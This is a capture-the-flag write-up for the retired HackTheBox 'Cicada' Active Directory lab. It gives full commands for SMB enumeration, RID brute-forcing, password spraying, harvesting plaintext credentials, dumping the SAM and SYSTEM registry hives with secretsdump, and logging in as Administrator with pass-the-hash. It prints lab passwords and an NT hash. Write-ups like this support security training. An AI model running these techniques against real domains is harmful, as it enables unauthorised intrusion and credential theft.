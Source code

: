 
# ✨ Cicada — HackTheBox Writeup (Retired)

🌐 **IP:** `10.10.11.35`  
🖥️ **OS:** Windows Server 2022  
🎯 **Difficulty:** Medium  
📚 **Category:** Active Directory, Kerberos, SMB, LDAP, WinRM  
👤 **Author:** [theblxckcicada](https://app.hackthebox.com/users/796798)  
🧰 **Tools:** `nmap`, `rustscan`, `nxc`, `crackmapexec`, `smbclient`, `evil-winrm`, `impacket-secretsdump`  
🎓 **Certs:** eCPPTv3, Dante Lab | Preparing for OSCP

---

## 🔍 Initial Enumeration

### 🚀 RustScan
```bash
rustscan -a 10.10.11.35 -- -sV
```

```text
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
61979/tcp open  msrpc         Microsoft Windows RPC
```

🧠 This host is most likely a domain controller for `cicada.htb`.

---

## 📡 DNS Enumeration
```bash
dig any cicada.htb @10.10.11.35
```

🗂️ Records found:
- `A` record for `cicada.htb`
- Nameserver: `cicada-dc.cicada.htb`
- Multiple `AAAA` records

---

## 📂 SMB Share Enumeration

```bash
nxc smb 10.10.11.35 -u x -p '' --shares
```

📁 Shares:
- `HR` (READ)
- `DEV`
- `NETLOGON`
- `SYSVOL`

### 📥 Accessing HR Share
```bash
smbclient -N //10.10.11.35/HR
smb: \> get "Notice from HR.txt"
```

📄 Inside the file:
```
Default password: Cicada$M6Corpb*@Lp#nZp!8
```

---

## 🧑‍💻 User Enumeration

### RID Brute-Force
```bash
nxc smb 10.10.11.35 -u x -p '' --rid-brute
```

🧍 Users:
- michael.wrightson
- sarah.dantelia
- john.smoulder
- david.orelious
- emily.oscars

---

## 🎯 Password Spray

```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

✅ Valid credentials:
- `michael.wrightson`

---

## 💡 Leaked Password in Description

```bash
nxc smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

📌 Found:
```
Just in case I forget my password is aRt$Lp#7t*VQ!3
```

---

## 🔓 Access as david.orelious

```bash
smbclient -U david.orelious \10.10.11.35\DEV
smb: \> get Backup_script.ps1
```

Inside:
```powershell
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
```

---

## 🛠️ WinRM Access as emily.oscars

```bash
evil-winrm -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -i 10.10.11.35
```

👤 Group memberships:
- Backup Operators ✅
- Remote Management Users ✅

---

## 🧪 Privilege Escalation (Backup Privileges)

```powershell
reg save hklm\sam C:\sam.save
reg save hklm\system C:\system.save
```

Download & extract:
```bash
impacket-secretsdump -system system.save -sam sam.save LOCAL
```

NT hash:
```
Administrator:500:...:2b87e7c93a3e8a0ea4a581937016f341:::
```

---

## 🏁 Final Access

```bash
evil-winrm -i 10.10.11.35 -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

🎉 Rooted!

---

\
